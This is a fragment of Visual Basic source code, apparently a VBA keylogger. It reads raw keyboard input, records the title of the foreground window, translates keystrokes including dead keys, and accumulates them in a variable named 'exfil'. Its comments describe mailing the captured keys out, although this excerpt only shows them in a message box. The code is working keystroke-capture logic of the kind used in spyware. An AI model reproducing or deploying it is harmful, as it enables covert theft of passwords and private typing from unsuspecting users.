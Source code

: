 ```vb
            Call CopyMemory(buffer, VarPtr(pbuffer(0)), dwSize)
            If (buffer.header.dwType = RIM_TYPEKEYBOARD) And (buffer.data.Message = WM_KEYDOWN) Or (buffer.data.Message = WM_SYSKEYDOWN) Then
                'Check the window title to know where the key was sent
                'We want to know if the title is the same, so when we add this info to our mail we don't paste a title per key
                'Just one title and all the keys related ;)
                fgWindow = GetForegroundWindow()
                wSize = GetWindowTextLength(fgWindow) + 1
                ReDim fgTitle(0 To wSize - 1)
                r = GetWindowText(fgWindow, VarPtr(fgTitle(0)), wSize)
                newTitle = ByteArrayToString(fgTitle)
                If newTitle <> oldTitle Then
                    oldTitle = newTitle
                End If
                
                GetKeyState (VK_CAPITAL)
                GetKeyState (VK_SCROLL)
                GetKeyState (VK_NUMLOCK)
                GetKeyState (VK_CONTROL)
                GetKeyState (VK_MENU)
                Dim lpKeyboard(0 To 255) As Byte
                r = GetKeyboardState(lpKeyboard(0))
                
                Select Case buffer.data.VKey
                Case VK_BACK
                    exfil = exfil & "[<]"
                Case VK_RETURN
                    exfil = exfil & vbNewLine
                Case Else
                    'Something funny undocumented: ToAscii "breaks" the keyboard status, so we need to perform this shitty thing to "fix" it
                    'Dealing with deadkeys is a pain in the ass T_T (á, é, í, ó, ú...)
                    result = ToAscii(buffer.data.VKey, MapVirtualKey(buffer.data.VKey, 0), lpKeyboard(0), VarPtr(wKey), 0)
                    If result = -1 Then
                        lastKey = buffer.data.VKey
                        Do While ToAscii(buffer.data.VKey, MapVirtualKey(buffer.data.VKey, 0), lpKeyboard(0), VarPtr(wKey), 0) < 0
                        Loop
                    Else
                        If wKey < 256 Then
                            MsgBox Chr(wKey), 0, oldTitle
                        End If
                        If lastKey <> 0 Then
                            Call CopyMemory(lpKeyboard(0), VarPtr(cleaner(0)), 256)
                            result = ToAscii(lastKey, MapVirtualKey(buffer.data.VKey, 0), lpKeyboard(0), VarPtr(wKey), 0)
                            lastKey = 0
                        End If
                    End If
                End Select
            End If
        End If
        
     Case Else
        WndProc = DefWindowProc(lhwnd, tMessage, wParam, lParam)
     End Select
End Function
```

